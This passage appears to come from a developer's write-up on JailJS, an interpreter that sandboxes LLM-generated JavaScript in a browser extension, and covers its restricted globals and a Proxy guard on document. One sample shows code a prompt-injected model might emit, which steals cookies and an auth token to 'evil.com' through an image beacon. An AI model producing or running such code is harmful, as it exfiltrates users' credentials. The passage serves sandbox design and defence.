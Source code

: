 The interpreter actually handles all of the ES5 spec. Through the power of Babel's transpiler, we can also take ES6+ or even TypeScript or JSX code and have it compiled down to ES5 so our interpreter can run that too. That means we can also use async/await, classes, and other ES6+ features. That said, in its current iteration, the interpreter cannot deal with some more advanced ES6+ features like generators, ES6 modules, Proxies, Reflect, WeakRef, SharedArrayBuffer, or Atomics.

But wait, wasn't this supposed to be kind of like a sandbox from which the LLM shouldn't be able to escape like a demented Houdini?

## Putting the sand in the sandbox

The key to sandboxing is controlling what the interpreted code has access to. Remember that `scope` parameter we pass to the interpreter? We can populate it with exactly the APIs we want the code to have access to, and nothing more. The code being interpreted can't reach out into the surrounding JavaScript execution environment and access things we didn't explicitly provide. Well, at least that's the theory.

By default, JailJS provides a minimal set of globals: `console`, `Math`, `JSON`, `Date`, `RegExp`, basic constructors like `Array` and `Object`, error types, and global functions like `parseInt` and `parseFloat`. Notably absent are `window`, `document`, `fetch`, and other browser APIs. And critically, `Function` and `eval` are blocked to prevent the code from breaking out of the sandbox.

But we can inject additional APIs as needed. For example, in the extension use case, we can inject `document` so the LLM-generated code can interact with the DOM, like reading DOM contents, clicking buttons, or modifying DOM elements:

```javascript
const interpreter = new Interpreter({
    document: document,
    console: console
});
```

Astute readers will immediately see the problem with that. Let me illustrate what a prompt-injected LLM could generate:

```javascript
// Code to be interpreted - exfiltrates sensitive data
var cookies = document.cookie;
var win = document.defaultView;
var localStorage = win.localStorage.getItem('auth_token');

// Send to evil server via image beacon
var img = document.createElement('img');
img.src = 'https://evil.com/steal?data=' + encodeURIComponent(cookies + '|' + localStorage);
document.body.appendChild(img);
```

Now we can play a cat and mouse game and try to expose `document` while preventing access to specific properties on it, like `defaultView` which gives access to the global `window` object, which in turn gives access to local storage and cookies:

```javascript
const proxiedDoc = new Proxy(document, {
    get(target, prop) {
        if (prop === 'defaultView' || prop === 'ownerDocument') {
            return undefined;
        }
        const value = target[prop];
        return typeof value === 'function' ? value.bind(target) : value;
    }
});

const interpreter = new Interpreter({
    document: proxiedDoc
});
```

